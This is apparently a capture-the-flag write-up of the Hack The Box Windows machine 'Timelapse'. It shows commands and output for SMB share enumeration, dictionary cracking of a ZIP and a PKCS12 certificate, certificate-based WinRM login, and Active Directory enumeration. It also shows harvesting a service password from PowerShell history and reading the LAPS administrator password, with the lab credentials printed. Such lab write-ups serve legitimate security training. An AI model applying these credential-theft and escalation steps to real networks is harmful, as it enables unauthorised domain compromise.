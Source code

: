 # Timelapse

## Overview

A Windows machine releases at 03/26/22 and features:

* Active Directory
* SMB Shares
* LAPS
* LDAP
* Crack Encrypted ZIP and PKCS12
* WinRM Certificate-based Authentication
* PowerShell History

## Reconnaissance

### General Information

* Host name `dc01.timelapse.htb`
* Domain name `timelapse.htb`
* WinRM over https got a _**expired TLS certificate**_

### Port Scanning

* TCP
  * Stealthy scanned
  * Opened ports 53, 88(Kerberos), 135, 139, 389, 5986(WinRM/HTTPs)...
  * Revealing this is a DC, Domain Controller
  * Domain `timelapse.htb0`
* UDP, Top-500
  * 53, 123, 389

### LDAP

* Null bind test _**fails**_

```bash
$ ldapsearch -x -b 'dc=timelapse,dc=htb0'
```

### SMB

*   Got some shares on target

    ```bash
    $ smbclient -U '' --no-pass -L //dc01.timelapse.htb

    		Sharename       Type      Comment
    		---------       ----      -------
    SMB1 disabled -- no workgroup available
    $ smbclient -U '' -L //dc01.timelapse.htb
    Enter WORKGROUP\'s password:

    		Sharename       Type      Comment
    		---------       ----      -------
    		ADMIN$          Disk      Remote Admin
    		C$              Disk      Default share
    		IPC$            IPC       Remote IPC
    		NETLOGON        Disk      Logon server share
    		Shares          Disk
    		SYSVOL          Disk      Logon server share
    SMB1 disabled -- no workgroup available
    ```
* On the `\\dc01.timelapse.htb\Shares` found
  * folder `HelpDesk` containing `LAPS` related document
  * folder `Dev` contains a encrypted file `winrm_backup.zip`
  * `SYSVOL` and `NETLOGON` got access denied

## Initial Access

### Crack ZIP encryption

* Use `zip2john` get the encrypted zip file hash

```bash
$ zip2john winrm_backup.zip > zip.hash
```

* Crack the hash by `john` and get password `supremelegacy`

```bash
──╼ $sudo john -wordlist:/home/htb-jackx8x7x/Desktop/Useful\ Repos/SecLists/Passwords/Leaked-Databases/rockyou.txt zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2022-03-28 05:23) 2.857g/s 9924Kp/s 9924Kc/s 9924KC/s surfrox1391..supergau
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### Crack PKCS12

* Unzip the zip file get a file `legacyy_dev_auth.pfx` string `legacyy@timelapse.htb`
  * Which is protected by a passphrase
* Crack by `crackpkcs12`

```bash
$sudo crackpkcs12 -d /home/htb-jackx8x7x/Desktop/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt ~/my_data/machine/timelapse/smb/legacyy_dev_auth.pfx

Dictionary attack - Starting 4 threads

*********************************************************
Dictionary attack - Thread 4 - Password found: thuglegacy
*********************************************************
```

### WinRM

We can use this file authenticating with the target over WinRM

*   Extract the private key from the `.pfx` file

    ```bash
    $ openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]
    $ openssl pkcs12 -in [yourfile.pfx] -clcerts -nokeys -out [drlive.crt]
    ```

```bash
$ evil-winrm -c cert -k key -i <IP> -S
```

## Enumeration

### Current User

* `timelapse\legacyy`
* Privileges
  * `SeMachineAccountPrivilege`
  * `SeIncreaseWorkingSetPrivilege`
* Groups
  * Remote Management Users
  * Pre-Windows 2000 Compatible Access
  * TIMELAPSE\Development

### Active Directory

*   Compuer Accounts

    * **DC01, DB01, WEB01, DEV01**

    ```powershell
    PS C:\> Get-ADComputer -Filter *
    ```
*   Users

    ```powershell
    *Evil-WinRM* PS C:\Users\legacyy\Documents> get-aduser -filter *|select distinguishedname

    distinguishedname
    -----------------
    CN=Administrator,CN=Users,DC=timelapse,DC=htb
    CN=Guest,CN=Users,DC=timelapse,DC=htb
    CN=krbtgt,CN=Users,DC=timelapse,DC=htb
    CN=TheCyberGeek,OU=Admins,OU=Staff,DC=timelapse,DC=htb
    CN=Payl0ad,OU=Admins,OU=Staff,DC=timelapse,DC=htb
    CN=Legacyy,OU=Dev,OU=Staff,DC=timelapse,DC=htb
    CN=Sinfulz,OU=HelpDesk,OU=Staff,DC=timelapse,DC=htb
    CN=Babywyrm,OU=HelpDesk,OU=Staff,DC=timelapse,DC=htb
    CN=svc_deploy,CN=Users,DC=timelapse,DC=htb
    CN=TRX,OU=Admins,OU=Staff,DC=timelapse,DC=htb
    ```

### LAPS

* Check for the LAPS password attribute ms-mcs-admpwd

```powershell
PS C:\> Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=timelapse,DC=htb'
```

## Privilege Escalation

* By list files recursive, found the PowerShell history
*   Alternatively, run the command `Get-PSReadlineOption`

    ```powershel
    PS C:\> gci -recurse -file -force -erraction ignore | ?{<some filter>}
    ```
* And we get the password for user `svc_deploy`
* who is the member of the `LAPS_Readers` group

```PowerShell
*Evil-WinRM* PS C:\Users\legacyy> get-content C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\Con*
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

* We can read the local administrator password by

```PowerShell
Evil-WinRM* PS C:\> get-adobject -filter 'objectclass -eq "computer"' -properties ms-mcs-admpwd


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-mcs-admpwd     : Me78u5,z{ml+N4VNl,rl)GxA
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f

```

## Reference

{% embed url="http://vcloud-lab.com/entries/powershell/configure-powershell-winrm-to-use-openssl-generated-self-signed-certificate" %}

{% embed url="https://adsecurity.org/?p=3164" %}

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/ad-enumeration" %}
